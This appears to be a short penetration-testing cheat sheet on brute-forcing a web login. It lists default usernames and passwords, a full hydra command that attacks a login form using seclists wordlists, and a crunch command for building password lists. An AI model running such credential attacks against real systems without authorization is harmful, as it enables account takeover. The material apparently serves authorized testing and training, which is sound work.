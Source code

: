 # brute forcing

- Try software default credentials
- Try the following usernames

```shell
admin
root
<software-name> (e.g. cms)
```

- Try the following passwords

```shell
root
password
```

- Brute force using most common credentials

```shell
cp /usr/share/seclists/Usernames/top-usernames-shortlist.txt users.txt
cp /usr/share/seclists/Passwords/darkweb2017-top100.txt passwords.txt
hydra -f -L users.txt -P passwords.txt $ip http-post-form "/login:username=^USER^&password=^PASS^:error message."
```
- Brute force using educated passwords. Create list using

```shell
crunch 10 10 -t "a3cipher%%" -o crunch.txt 
```
- Try SQL injection
